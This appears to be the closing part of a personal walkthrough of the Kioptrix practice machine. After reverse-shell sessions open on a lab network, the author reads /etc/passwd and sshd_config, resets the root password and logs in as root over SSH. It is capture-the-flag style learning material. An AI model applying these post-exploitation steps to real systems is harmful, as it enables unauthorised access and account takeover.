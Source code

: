 [*] Command shell session 6 opened (192.168.1.97:4444 -> 192.168.1.101:1042 ) at 2022-03-18 11:17:49 -0400
[*] Command shell session 7 opened (192.168.1.97:4444 -> 192.168.1.101:1043 ) at 2022-03-18 11:17:50 -0400
[*] Command shell session 8 opened (192.168.1.97:4444 -> 192.168.1.101:1044 ) at 2022-03-18 11:17:52 -0400

so at this point we have reverse shell:

so doing:
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash

so we have a root account (which is obvious, but its wise to check?)
 lets cat the sshd config file
 
 cat /etc/ssh/sshd_config
 
 so from that (cliped)
 
 Port 22
PermitRootLogin yes

# To disable tunneled clear text passwords, change to no here!
PasswordAuthentication yes
PermitEmptyPasswords no

so root can do ssh logins, using a password

so lets just change the root password:

passwd
New password: password
BAD PASSWORD: it is based on a dictionary word
Retype new password: password
passwd: all authentication tokens updated successfully

and then try to login again:

login as: root
root@192.168.1.101's password:
Last login: Fri Mar 18 10:32:02 2022 from clientpc-adriand.fritz.box
[root@kioptrix root]#

and there we go - logged is as root

### conclusion 
this is not an hard box to access.
note i think the way this is setup i.e. old version of apache etc... then this is just one way to access this box. so a revisit to exploit these would be better







 
 














